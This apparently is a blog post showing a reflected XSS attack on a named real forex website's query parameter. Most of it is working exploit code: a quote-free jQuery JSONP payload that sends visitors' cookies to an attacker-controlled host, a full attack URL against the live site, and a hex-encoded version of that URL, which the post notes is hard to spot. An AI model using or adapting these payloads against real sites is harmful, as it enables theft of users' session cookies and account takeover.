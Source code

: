 ```yaml
---
layout: post
tags: 
title: XSS with no quotes
---
```


What we have:
http://www.forexpros.com/directory/forex-brokers?SoftwareTypeMobile=
Query string parameter ?SoftwareTypeMobile is open for potential XSS attack (and there are few more on the same page) becuase it's contents is being printed in the HTML document, here is how:

We can pass something like that in order to EMBED JavaScript in page:

{% highlight javascript %}
?SoftwareTypeMobile="><script>document.write(document.cookie)</script><a
{% endhighlight %}

This will just print User’s Cookie somewhere on the page (specifically in this case - in pagination).

Let’s move on..
Now because Server-side of that page sanitizes this parameter and adds slashes to quotes and double quotes we can’t really use quotes, which limits us a lot, BUT it doesn’t prevent XSS completely..

Let’s take a look at how we can write fully functional snippet without using ANY quote/double quote in JS (remember, double quote with slash before it in HTML is just a normal double quote):


{% highlight html %}
{% raw %}
"></a>
<form name=xssform>
<input type=hidden name=xssurl value=http://xxx.xxx.xxx.xxx/xss/?cookie= />
<input type=hidden name=xsstype value=jsonp />
<input type=hidden name=xssjsonp value=jsonp_callback />
</form>
<script>
$.ajax({
  dataType: document.xssform.xsstype.value,
  data: {cookie:document.cookie},
  jsonp: document.xssform.xssjsonp.value,
  url: document.xssform.xssurl.value
})
</script>
<a
{% endraw %}
{% endhighlight %}
    
First, we create a FORM containing cells with data we need (because browser engine doesn’t require quotes in HTML, we don’t have to provide them, browser will complete them for us) Next, we utilize jQuery to send a JSONP (cross-domain AJAX request with the full COOKIE string as a value of parameter “cookie”) So you get an idea, server side script will get this data and bla bla bla..

In order for this snippet to function properly, we have to remove all linebreaks and form it as a ONE LINE string here it is:

{% highlight javascript %}
{% raw %}
"></a><form name=xssform><input type=hidden name=xssurl value=http://xxx.xxx.xxx.xxx/xss/?cookie= /><
input type=hidden name=xsstype value=jsonp /><input type=hidden name=xssjsonp value=jsonp_callback /></form><script>
$.ajax({dataType: document.xssform.xsstype.value,data: {cookie:document.cookie},jsonp: document.xssform.xssjsonp.value,
url: document.xssform.xssurl.value})</script><a
{% endraw %}
{% endhighlight %}

Well, this would already work on FF & Opera Here is the full URL (note that xxx.xxx.xxx.xxx should be replaced with real HOSTNAME):

{% highlight javascript %}
http://www.forexpros.com/directory/forex-brokers?SoftwareTypeMobile="></a><form name=xssform><input type=hidden
name=xssurl value=http://xxx.xxx.xxx.xxx/xss/?cookie= /><input type=hidden name=xsstype value=jsonp /><input type=hidden name=xssjsonp
value=jsonp_callback /></form><script>$.ajax({dataType: document.xssform.xsstype.value,data: {cookie:document.cookie},
jsonp: document.xssform.xssjsonp.value,url: document.xssform.xssurl.value})</script><a
{% endhighlight %}

..alternatively you could convert parameter value into HEX entities and it will look like so:

http://www.forexpros.com/directory/forex-brokers?SoftwareTypeMobile=%22%3E%3C%2F%61%3E%3C%66%6F%72%6D%20%6E%61%6D%65%3D%78%73%73%66%6F%72
%6D%3E%3C%69%6E%70%75%74%20%74%79%70%65%3D%68%69%64%64%65%6E%20%6E%61%6D%65%3D%78%73%73%75%72%6C%20%76%61%6C%75%65%3D%68%74%74%70%3A%2F%2F%78%78
%78%2E%78%78%78%2E%78%78%78%2E%78%78%78%2F%78%73%73%2F%3F%63%6F%6F%6B%69%65%3D%20%2F%3E%3C%69%6E%70%75%74%20%74%79%70%65%3D%68%69%64%64%65%6E%20
%6E%61%6D%65%3D%78%73%73%74%79%70%65%20%76%61%6C%75%65%3D%6A%73%6F%6E%70%20%2F%3E%3C%69%6E%70%75%74%20%74%79%70%65%3D%68%69%64%64%65%6E%20%6E%61
%6D%65%3D%78%73%73%6A%73%6F%6E%70%20%76%61%6C%75%65%3D%6A%73%6F%6E%70%5F%63%61%6C%6C%62%61%63%6B%20%2F%3E%3C%2F%66%6F%72%6D%3E%3C%73%63%72%69%70
%74%3E%24%2E%61%6A%61%78%28%7B%64%61%74%61%54%79%70%65%3A%20%64%6F%63%75%6D%65%6E%74%2E%78%73%73%66%6F%72%6D%2E%78%73%73%74%79%70%65%2E%76%61%6C
%75%65%2C%64%61%74%61%3A%20%7B%63%6F%6F%6B%69%65%3A%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%7D%2C%6A%73%6F%6E%70%3A%20%64%6F%63%75%6D%65%6E
%74%2E%78%73%73%66%6F%72%6D%2E%78%73%73%6A%73%6F%6E%70%2E%76%61%6C%75%65%2C%75%72%6C%3A%20%64%6F%63%75%6D%65%6E%74%2E%78%73%73%66%6F%72%6D%2E%78
%73%73%75%72%6C%2E%76%61%6C%75%65%7D%29%3C%2F%73%63%72%69%70%74%3E%3C%61
some of pages on Forexpros non-latin websites look like this:

http://www.forexpros.ru/news/%D0%9D%D0%BE%D0%B2%D0%BE%D1%81%D1%82%D0%B8-%D0%A4%D0%BE%D1%80%D0%B5%D0%BA%D1%81/%D0%A4
%D0%BE%D1%80%D0%B5%D0%BA%D1%81---eur-usd-%D0%B2%D1%8B%D1%80%D0%BE%D1%81-%D0%B2%D0%BE-%D0%B2%D1%80%D0%B5%D0%BC%D1%
8F-%D0%B0%D0%B7%D0%B8%D0%B0%D1%82%D1%81%D0%BA%D0%BE%D0%B9-%D1%81%D0%B5%D1%81%D1%81%D0%B8%D0%B8-55799
so it’s hard to detect a problem in previous link
